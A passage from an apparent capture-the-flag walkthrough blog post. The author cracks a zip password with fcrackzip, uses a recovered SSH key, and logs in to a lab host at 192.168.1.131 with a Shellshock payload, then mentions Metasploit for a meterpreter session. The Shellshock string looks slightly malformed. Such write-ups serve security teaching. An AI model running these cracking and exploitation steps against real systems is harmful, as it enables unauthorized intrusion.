 get lmao.zip

![](https://i1.wp.com/3.bp.blogspot.com/-KTw2sxYx0dQ/W2GaVEgasyI/AAAAAAAAZBk/ISBJdklsusc8MsME_FXSURPi1IiBOO0rQCEwYBhgL/s1600/16.png?w=687&ssl=1)  
We found a zip file “lmao.zip” in FTP. But the zip had password protection.  
Wait… what about the file we just decoded? Could it have a password for the zip file?  

fcrackzip –u –D –p decoded.txt lmao.zip

1

fcrackzip  –u  –D  –p  decoded.txt lmao.zip

We found the password!. Let’s unzip the file now.  

unzip lmao.zip

1

unzip lmao.zip

And enter the password: **ItCantReallybeThisEasyRightLOL**  
![](https://i1.wp.com/3.bp.blogspot.com/-2yu1mH7O0xc/W2GaVnM09rI/AAAAAAAAZBo/p1UUHd-BCfI11DsbUI4T6vn_CisQTMZIwCEwYBhgL/s1600/17.png?w=687&ssl=1)  
We had a high curiosity about the file “noob”.  
**cat noob**  
Turned out, it was an RSA key to SSH  
![](https://i0.wp.com/2.bp.blogspot.com/-22JX5pRWMng/W2GaVlqUsDI/AAAAAAAAZDE/gI9uehs6cOI2lffTSQ-GoO_ymg3xr65WQCEwYBhgL/s1600/18.png?w=687&ssl=1)  
Without any delay, we tried to login to SSH using this RSA key but we got trolled, yet again!  

chmod 600 noob ssh –i noob noob@192.168.1.131

1

2

chmod  600  noob

ssh  –i  noob noob@192.168.1.131

![](https://i0.wp.com/3.bp.blogspot.com/-DgreLCKBXec/W2GaV8ptR_I/AAAAAAAAZBw/Gaptgd9npSMOqmLxO_Bxww0eyB8w6IF7wCEwYBhgL/s1600/19.png?w=687&ssl=1)  
A complete arrow in the dark was to exploit shellshock vulnerability in SSH. So, we tried the command:  

ssh –i noob noob@192.168.1.131 '() ( : ;}; /bin/bash'

1

ssh  –i  noob noob@192.168.1.131  '() ( : ;}; /bin/bash'

And we got logged in!  

id

1

id

![](https://i2.wp.com/2.bp.blogspot.com/-LbBXmat_x3g/W2GaWCmmd8I/AAAAAAAAZB4/2qox-WWKDEAUfd7ENtinZjZ_pcqOFQvggCEwYBhgL/s1600/20.png?w=687&ssl=1)  
But it isn’t a proper teletype. We used web delivery in Metasploit to create a python shell to get a proper meterpreter session.  
